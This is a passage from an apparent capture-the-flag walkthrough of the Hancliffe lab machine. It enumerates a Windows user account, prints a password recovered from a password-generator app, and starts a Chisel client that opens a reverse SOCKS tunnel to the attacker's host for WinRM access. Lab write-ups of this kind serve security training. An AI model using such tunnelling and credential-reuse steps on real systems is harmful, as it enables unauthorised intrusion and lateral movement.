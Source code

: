 There is a user named development on Hancliffe:

```

PS C:\> net user development
net user development
User name                    development
Full Name                    
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/26/2021 9:35:26 PM
Password expires             Never
Password changeable          6/26/2021 9:35:26 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   1/29/2022 5:21:33 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use*Users                
Global Group memberships     *None                 
The command completed successfully.

```

They are even in the Remote Management Users group, which means they can connect over WinRM.

If I guess the username development, and fill in the other two fields from the saved password, it returns a password on clicking “Generate Password”:

![image-20220129082513332](https://0xdfimages.gitlab.io/img/image-20220129082513332.png)

#### Tunnel WinRM

To see if “AMl.q2DHp?2.C/V0kNFU” is the password for the development account, I’ll start a new Chisel tunnel that provides a Socks proxy:

```

PS C:\programdata> .\c client 10.10.14.6:8000 R:socks
.\ch client 10.10.14.6:8000 R:socks
2022/01/29 05:14:12 client: Connecting to ws://10.10.14.6:8000
2022/01/29 05:14:12 client: Connected (Latency 91.3529ms)

```
